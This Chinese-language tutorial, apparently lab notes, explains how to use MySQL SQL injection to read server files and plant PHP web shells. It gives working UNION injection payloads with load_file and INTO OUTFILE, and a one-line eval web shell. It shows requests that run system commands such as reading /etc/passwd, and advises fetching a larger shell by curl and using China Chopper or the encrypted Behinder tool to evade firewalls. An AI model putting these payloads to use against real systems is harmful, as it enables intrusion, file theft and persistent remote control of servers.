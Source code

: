 # 文件读写与木马植入

## 一、读写权限确认

```sql
show global variables like '%secure%';
# 查看mysql全局变量的配置，当输入以上命令后，结果
secure_file_priv = 空 的时候，任意读写
secure_file_priv = 某个路径的时候，只能在规定的路径下读写
secure_file_priv = NULL 不能读写
```

## 二、读取文件

- 利用SQL语句读取系统文件，先读取常规文件（明确路径），如果能成功读取，则继续读取其他文件；如果明确知道路径，则尝试爆破路径下的文件；如果不知道路径，则爆破路径。

```
-1' union select 1,2,3,load_file("c:/windows/service.inf"),5,6

-1' union select 1,2,3,load_file("D:/XamppNew/htdics/security/commin.php"),5,6
```

## 三、写入木马

```
例如：select "helloworld" into outfile "/opt/lampp/htdocs/security/muma.php"

-1 union select 1,2,3,4,5,"<?php eval($_GET['a']);?>" in to outfile "D:/XamppNew/htdocs/security/temp/muma.php"

如果列数未知，也可以不停尝试，注入一次，访问一次，确认是否注入成功

一句话木马：
<?php eval($_POST['a']);?>
eval可以将一段字符串当成代码来执行，如果用户可以直接 将这段有效的PHP代码传入后台，则可以执行任意代码或指令

/security/temp/muma/php?a=phpinfo();
/security/temp/muma/php?a=echo date('Y-m-d');
/security/temp/muma/php?a=system('ip addr');
/security/temp/muma/php?a=system('cat /etc/passwd');

以上为GET请求的方式，也可以用POST请求的方式，这样可以添加的载荷更大，可以上传大马，但建议通过curl下载的方式植入大马
-1 union select 1,2,3,4,5,"<?php eval($_POST['a']);?>" intooutfile "D:/XamppNew/htdocs/security/temp/muma.php"

也可以上传一句话木马后，通过中国菜刀连接以便于操作
```

## 四、中国菜刀

- 必须提前已经完成了木马植入然后才能使用。
- 木马必须是POST请求，参数自定义，在菜刀中给出正确的参数名。
- 菜刀采用Base64编码，相当于明文传输，目前已经被WAF进行防护了

## 五、冰蝎

- 冰蝎是加密传输，防火墙很难分析出流量特征，比较容易绕开防火墙
- 先上传一个冰蝎自己的带加密解密功能的shell脚本
- 上传shell的过程有以下方式
  - 直接在命令行运行命令按行用echo写入
  - 用curl通过公网进行远程文件下载
  - 用菜刀连接，然后基于菜刀直接上传shell
  - 如果目标站点存在文件上传漏洞，直接在文件上传的时候上传shell